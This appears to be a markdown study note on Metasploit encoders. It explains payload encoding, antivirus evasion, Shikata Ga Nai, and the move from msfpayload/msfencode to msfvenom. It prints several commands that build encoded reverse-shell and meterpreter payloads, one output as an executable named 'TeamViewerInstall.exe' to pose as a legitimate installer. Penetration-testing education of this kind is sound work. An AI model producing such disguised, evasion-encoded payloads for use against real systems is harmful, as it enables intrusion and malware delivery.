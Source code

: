 1. **Payload Compatibility**: Ensuring the payload works on different processor architectures.
2. **Antivirus Evasion**: Obfuscating payloads to bypass antivirus (AV) and intrusion detection/prevention systems (IDS/IPS).

---

## 🖥️ Supported Architectures
Metasploit encoders help adapt payloads to:
- `x86`
- `x64`
- `sparc`
- `ppc`
- `mips`

They also help remove **bad characters** from payloads (e.g., null bytes or other restricted characters).

---

## 🔄 Evolution of Encoders

- **Pre-2015**: Tools like `msfpayload` and `msfencode` were used.
- **Post-2015**: Replaced by a unified tool, `msfvenom`, for payload generation and encoding.

### Legacy Example (Pre-2015):
```bash
msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -e x86/shikata_ga_nai -t perl
```

### Modern Example (msfvenom):
```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -e x86/shikata_ga_nai -f perl
```

---

## **🧬 Notable Encoder: Shikata Ga Nai (仕方がない)**

![Metasploit Module Layout](https://hatching.io/static/images/blog/metasploit-part2/metasploit-part2-1.gif)

---
- **Type**: Polymorphic XOR additive feedback encoder
- **Meaning**: Japanese for "It cannot be helped"
- **Status**: Once the gold standard for evasion, but no longer effective against modern AV/EDR due to better signature detection.

### Example:
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 10 -f exe -o TeamViewerInstall.exe
```
- `-i 10`: Apply the encoder 10 times (multi-iteration encoding)
- Final `.exe` may still be detected by most AV software.

---